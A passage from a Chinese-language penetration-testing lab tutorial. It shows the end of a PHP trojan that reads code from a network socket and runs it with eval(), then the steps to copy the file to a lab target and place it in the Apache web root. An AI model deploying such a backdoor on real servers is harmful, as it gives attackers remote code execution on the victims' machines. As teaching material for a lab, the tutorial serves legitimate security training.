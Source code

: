 ```
    // 根据类型 stream，或者 socket 调用相应读取数据函数
    switch ($s_type) { 
        case 'stream': $b .= fread($s, $len-strlen($b)); break;
        case 'socket': $b .= socket_read($s, $len-strlen($b)); break; 
    } 
} 

// 保存 $s 值为全局变量
$GLOBALS['msgsock'] = $s;

// 保存 $s_type 类型值为全局变量
$GLOBALS['msgsock_type'] = $s_type;

eval($b);

die();
```

### 4.3 上传到目标靶机

将生成的 PHP 木马文件件上传到实验楼宿主机，也就是实验楼目标靶机，IP 地址为 `192.168.122.1`。一般情况下，查看本机的 ip 地址命令为 `ifconfig`。下面我们将文件进行上传，输入如下命令：

```
# 实验楼环境中，直接上传到目标主机的网站目录下，会显示没有权限，所以先上传到目标主机
# 将木马程序上传到目标主机的 tmp 文件夹下
scp hello.php shiyanlou@192.168.122.1:/tmp
```
其中宿主机的账号名称是 `shiyanlou`，密码也是 `shiyanlou`:

![图片描述](../imgs/1534152691247.png)

在实验楼本机（也就是宿主机）安装 apache2 并开启 `apache` 服务，另外还要安装 php5，用以测试 PHP 木马：

```bash
#更新软件源
sudo apt-get update
#安装 apache2
sudo apt-get install -y apache2
#开启 apache 服务
sudo service apache2 start
```

输入如下命令，将木马文件，复制到网站的根目录下：

```
# 将 PHP 木马程序拷贝到网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
